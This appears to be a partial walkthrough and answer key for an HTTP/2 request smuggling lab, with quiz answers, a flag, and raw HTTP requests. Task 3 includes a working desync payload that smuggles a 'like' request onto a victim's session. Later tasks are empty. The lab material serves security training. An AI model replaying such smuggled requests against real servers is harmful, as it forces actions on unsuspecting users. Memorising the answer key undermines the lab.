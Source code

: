 <h1>HTTP/2 Request Smuggling</h1>

<br>

<br>

<h2>Task 1. Introduction</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>Deploy the VM before continuing.</em><br><a id='1.1'></a>
>> <strong><code>No answer needed</code></strong><br>
<p><br></p>

<h2>Task 2. HTTP/2 Explained</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 2.1. <em>Which version of the HTTP protocol uses \r\n to separate headers in a request?</em><br><a id='2.1'></a>
>> <strong><code>HTTP/1.1</code></strong><br>
<p><br></p>

> 2.2. <em>Which version of the HTTP protocol uses a binary format and clearly defines boundaries for elements in requests/responses?</em><br><a id='2.2'></a>
>> <strong><code>HTTP/2</code></strong><br>
<p><br></p>

<h2>Task 3. HTTP/2 Desync</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 3.1. <em>Repeat the request shown in the practical example against the app and wait for a user to fall for our trap. What is the username of the victim user who liked our post?</em><br><a id='3.1'></a>
>> <strong><code>THM{my_name_is_a_flag}</code></strong><br>
<p><br></p>


![image](https://github.com/user-attachments/assets/708836a0-2554-4570-bf41-d1e7f9ff8f29)

<br>

![image](https://github.com/user-attachments/assets/9bd0ba4f-33f0-4649-b00e-71e3fdb95fad)


<br>

<pre><code>POST / HTTP/2
Host: 10.10.15.222:8000
Cookie: sessid=ba89f897ef7f68752abc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.10.15.222:8000/post/12315198742342
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /post/like/12315198742342 HTTP/1.1
X: f</code></pre>

<br>

![image](https://github.com/user-attachments/assets/18f35c91-1161-40fd-9c2c-ae1e75619da6)

<br>


![image](https://github.com/user-attachments/assets/c85eb21b-6963-4a80-93b9-86b5a612460f)

<br>

<h2>Task 4. HTTP/2 Request Tunneling</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 4.1. <em>Click and continue learning!</em><br><a id='4.1'></a>
>> <strong><code>No answer needed</code></strong><br>
<p><br></p>


<h2>Task 5. HTTP/2 Request Tunneling: Leaking Internal Headers</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 5.1. <em>What's the value of the leaked internal header?</em><br><a id='5.1'></a>
>> <strong><code>No answer needed</code></strong><br>
<p><br></p>


![image](https://github.com/user-attachments/assets/7b378527-8dcd-4a4d-9329-75320b8b675d)

<br>

![image](https://github.com/user-attachments/assets/ed93031e-8e8a-4dbc-910f-97a8f59b5bba)

<br>

![image](https://github.com/user-attachments/assets/ac40fa0d-f045-41df-b289-53d411c503d4)

<br>

![image](https://github.com/user-attachments/assets/1e6c6abe-31c7-4ab8-ad12-328203ce295c)

<br>

<pre><code>
POST /hello HTTP/2
Host: [Target]:8100
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://[Target]:8100
Referer: http://[Target]:8100/hello
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Foo: bar
</code></pre>


<br>

![image](https://github.com/user-attachments/assets/bb6ce47a-e321-4ba6-b9a1-71ca5f7cc101)

<p> to be continued</p>







<h2>Task 6. HTTP/2 Request Tunneling: Bypassing Frontend Restrictions</h2>

<h2>Task 7. HTTP/2 Request Tunneling: Web Cache Poisoning</h2>

<h2>Task 8. h2c Smuggling</h2>

<h2>Conclusion</h2>
